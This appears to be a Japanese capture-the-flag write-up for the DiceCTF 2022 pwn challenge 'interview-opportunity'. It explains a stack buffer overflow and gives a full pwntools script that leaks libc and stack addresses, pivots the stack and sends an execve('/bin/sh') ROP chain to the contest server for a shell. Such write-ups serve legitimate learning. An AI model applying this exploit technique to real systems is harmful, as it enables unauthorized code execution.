 ```yaml
---
layout: chall
ctf_name: DiceCTF_2022
problem_name: interview-opportunity
genre: pwn
solved_date: 2022-02-05
during_ctf: true
tag: [rop, warmup]
---
```


### 概要

バイナリのみ渡される。自明な bof があり、30 bytes 程度の rop chain が書き込める。

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

<details><summary>コード</summary>

```c
int main() {
  char buf[34];
  read(0, buf, 70);
}
```

</details>


### 解法

puts(puts) で libc のアドレスリークをした後、`rbp` を書き込み可能領域に設定してから `read` を呼ぶ直前に rop で飛ばす。こうすることで、70 byte のデータを既知のアドレスに書き込める。これは `execve` の rop を入れるのに十分な大きさなので、これを書き込む。そして、次の rop で stack pivot をすればよい。

<details><summary>スクリプト</summary>

```py
from pwn import *

BIN_NAME = 'interview-opportunity'
REMOTE_ADDR = 'mc.ax'
REMOTE_LIBC_PATH = 'libc.so.6'
REMOTE_PORT = 31081
LOCAL = False

chall = ELF(BIN_NAME)
context.binary = chall

if LOCAL: stream = process(BIN_NAME)
else: stream = remote(REMOTE_ADDR, REMOTE_PORT)

def send_rop(chain):
    if LOCAL is None: return
    assert len(chain) + 34 <= 70, str(34 + len(chain))
    stream.sendline(b'\x00' * 34 + chain)
    stream.recvuntil(b'\n\n')

rop = ROP(chall)
rop.call('puts', [chall.got["puts"]])
rop.call('main', [])
send_rop(rop.chain())
puts_addr = unpack(stream.recvline(keepends=False), "all")

libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so' if LOCAL else REMOTE_LIBC_PATH)
libc.address = puts_addr - libc.symbols["puts"]
print(f'{hex(libc.address)=}')

rop = ROP(chall)
rop.call('puts', [libc.symbols["environ"]])
rop.call('main', [])
send_rop(rop.chain())
stack_addr = unpack(stream.recvline(keepends=False), "all")
print(f'{hex(stack_addr)=}')

rop = ROP(chall)
rop.raw(rop.find_gadget(['pop rbp', 'ret']))
rop.raw(stack_addr - 0x80 + 0x1a)
rop.raw(0x401276)
print(rop.dump())
send_rop(rop.chain())

rop = ROP(libc)
# use int 90
rop.execve(next(libc.search(b'/bin/sh')), 0, 0)

# use call
# rop.call('execve', [b'/bin/sh', 0])
assert len(rop.chain()) <= 70
pause()
stream.sendline(rop.chain())

stream.interactive()
```

</details>

